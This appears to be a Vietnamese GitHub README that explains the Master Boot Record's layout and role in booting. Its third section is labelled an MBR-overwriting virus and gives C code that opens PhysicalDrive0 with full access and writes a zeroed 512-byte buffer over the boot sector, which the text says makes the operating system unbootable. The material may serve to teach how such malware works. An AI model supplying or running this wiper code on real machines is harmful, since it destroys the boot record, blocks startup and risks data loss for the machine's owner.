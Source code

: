 ﻿### 1. Master Boot Record - MBR
- Là một cấu trúc dữ liệu quan trọng trên ổ đĩa cứng.
- Sector này chứa mã thực thi (executable code), chữ ký (disk signature) và bảng thông tin về các phân vùng (partition table) trên ổ đĩa cứng.
- Có kích thước là 512 bytes. Trong đó:
	+ 444 bytes đầu là Master Boot Code (executable code)
	+ 64 bytes tiếp theo là thông tin các phân vùng (partition table)
	+ 2 bytes cuối là chữ ký, giá trị là: 0x55AA

### 2. Hoạt động của MBR
- Hệ thống dựa vào cấu trúc dữ liệu này để tải các phân vùng có trên đĩa cứng.
- Nếu là phân vùng Primary và được Active thì hệ điều hành sẽ trỏ tới file BootLoader để nạp OS có trên phân vùng này.
- Đồng thời cũng tải những phân vùng Primary và Logical khác, như các phân vùng lưu dữ liệu (Không phải vùng cài OS).

### 3. Virus ghi đè MBR
- Tạo dữ liệu trắng dùng hàm ZeroMemory(), gọi là đoạn dữ liệu tạm, sẽ dùng để ghi đoạn dữ liệu tạm này vào MBR
	```
	char mbrData[MBR_SIZE];
	ZeroMemory(&mbrData, (sizeof mbrData));
	```

- Tiến hành tạo Handle Device của ổ cứng: 
	```
	HANDLE MasterBootRecord = CreateFile("\\\\.\\PhysicalDrive0"
		, GENERIC_ALL, FILE_SHARE_READ | FILE_SHARE_WRITE
		, NULL, OPEN_EXISTING, NULL, NULL);
	```

- Tiến hành việc ghi vào MBR:
	```
	WriteFile(MasterBootRecord, mbrData, MBR_SIZE, &write, NULL)
	```
	
- Lúc này dữ liệu gốc trên Sector này bị đã bị đè, gây lỗi khởi động hệ điều hành.

### 4. Tham khảo
- https://technet.microsoft.com/en-us/library/cc976786.aspx
- https://www.bydavy.com/2012/01/lets-decrypt-a-master-boot-record/